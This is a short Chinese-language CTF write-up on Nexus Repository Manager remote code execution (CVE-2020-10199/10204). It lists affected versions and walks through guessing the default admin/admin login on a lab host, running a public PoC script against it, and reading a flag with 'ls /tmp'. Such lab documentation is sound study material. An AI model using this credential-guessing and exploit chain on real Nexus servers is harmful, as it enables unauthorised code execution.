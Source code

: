 # NEXUS远程代码执行(CVE-2020-10199/10204)
## 漏洞描述
Nexus Repository Manager（NXRM）是美国Sonatype公司的一款Maven仓库管理器。 CVE-2020-10199的漏洞需要普通用户权限即可触发，而CVE-2020-10204则需要管理员权限。两个漏洞的触发原因均是不安全的执行EL表达式导致的。

## 影响版本
CVE-2020-10199：Nexus Repository Manager OSS/PRo <=3.21.1，需有低权限账号。
CVE-2020-10204：Nexus Repository Manager OSS/PRo <=3.21.1，需有管理员账号。

## 利用流程
1.访问地址：118.193.36.37:26423 	尝试得到弱口令admin/admin
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/1.jpg)
2.下载可利用脚本:
```
https://github.com/zhzyker/CVE-2020-10199_POC-EXP
```
3.利用脚本：
```
python3 <filename> <url> <username> <password>
```
```
python3 cve-2020-10199_cmd.py http://118.193.36.37:26423 admin admin
```
```
![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/2.jpg)
```
4.使用命令 ls /tmp得到flag：

![image](https://github.com/LiuYuH-hash/WriteUp/blob/main/NEXUS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C(CVE-2020-10199%2610204)/3.jpg)